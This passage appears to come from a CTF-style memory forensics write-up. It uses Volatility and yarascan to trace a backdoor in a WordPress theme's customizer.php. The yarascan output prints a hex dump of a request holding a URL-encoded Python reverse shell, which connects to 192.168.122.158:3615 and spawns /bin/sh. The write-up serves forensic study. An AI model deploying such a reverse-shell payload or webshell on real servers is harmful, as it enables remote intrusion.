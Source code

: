 Unfortunately, Monique removed her arbitrary code before leaving, so no proof... Even in the memory dump, there doesn't seem to be much:

```bash
$ cat pfile_list| grep "rock-band"     
----------------                0x0 /bin/bin/var/www/html/wp-content/languages/themes/rock-band-fr_FR.mo
          532630 0xffff979692ed5948 /bin/bin/var/www/html/wp-content/themes/rock-band
          532646 0xffff979692ef9a88 /bin/bin/var/www/html/wp-content/themes/rock-band/functions.php
          532639 0xffff979692ef41a8 /bin/bin/var/www/html/wp-content/themes/rock-band/inc
----------------                0x0 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/customizer.php~
----------------                0x0 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/ensibssecretproject
----------------                0x0 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/ens
          532643 0xffff979692ef5a48 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/override-parent.php
          532640 0xffff979692ef45d8 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/metabox
          532641 0xffff979692ef4a08 /bin/bin/var/www/html/wp-content/themes/rock-band/inc/metabox/metabox.php
          532631 0xffff979692ed50e8 /bin/bin/var/www/html/wp-content/themes/rock-band/languages
----------------                0x0 /bin/bin/var/www/html/wp-content/themes/rock-band/languages/fr_FR.mo
```

I can still see this:

* customizer.php~
* ensibssecretproject

The first file is follow by the `~` suffix, probably for temporary files. If we would manage to recover this file, we probably could get the arbitrary code.

The second one, is an ENSIBS project of Odie, finding this file in this place is quite surprising.

Let's look for `customizer.php` string in memory, with the yarascan plugin from Volatility and see where it appears:

```bash
$ vol.py --plugins=../plug_vol/ --profile=LinuxOdie_profilex64 -f memory.dmp linux_yarascan -Y "customizer.php"
[...]
Task: apache2 pid 21733 rule r1 addr 0x7f0733fb39b7
0x7f0733fb39b7  63 75 73 74 6f 6d 69 7a 65 72 2e 70 68 70 3f 78   customizer.php?x
0x7f0733fb39c7  3d 70 79 74 68 6f 6e 25 32 30 2d 63 25 32 30 25   =python%20-c%20%
0x7f0733fb39d7  32 37 69 6d 70 6f 72 74 25 32 30 73 6f 63 6b 65   27import%20socke
0x7f0733fb39e7  74 2c 73 75 62 70 72 6f 63 65 73 73 2c 6f 73 3b   t,subprocess,os;
0x7f0733fb39f7  73 3d 73 6f 63 6b 65 74 2e 73 6f 63 6b 65 74 28   s=socket.socket(
0x7f0733fb3a07  73 6f 63 6b 65 74 2e 41 46 5f 49 4e 45 54 2c 73   socket.AF_INET,s
0x7f0733fb3a17  6f 63 6b 65 74 2e 53 4f 43 4b 5f 53 54 52 45 41   ocket.SOCK_STREA
0x7f0733fb3a27  4d 29 3b 73 2e 63 6f 6e 6e 65 63 74 28 28 25 32   M);s.connect((%2
0x7f0733fb3a37  32 31 39 32 2e 31 36 38 2e 31 32 32 2e 31 35 38   2192.168.122.158
0x7f0733fb3a47  25 32 32 2c 33 36 31 35 29 29 3b 6f 73 2e 64 75   %22,3615));os.du
0x7f0733fb3a57  70 32 28 73 2e 66 69 6c 65 6e 6f 28 29 2c 30 29   p2(s.fileno(),0)
0x7f0733fb3a67  3b 25 32 30 6f 73 2e 64 75 70 32 28 73 2e 66 69   ;%20os.dup2(s.fi
0x7f0733fb3a77  6c 65 6e 6f 28 29 2c 31 29 3b 25 32 30 6f 73 2e   leno(),1);%20os.
0x7f0733fb3a87  64 75 70 32 28 73 2e 66 69 6c 65 6e 6f 28 29 2c   dup2(s.fileno(),
0x7f0733fb3a97  32 29 3b 70 3d 73 75 62 70 72 6f 63 65 73 73 2e   2);p=subprocess.
0x7f0733fb3aa7  63 61 6c 6c 28 5b 25 32 32 2f 62 69 6e 2f 73 68   call([%22/bin/sh
[...]
```
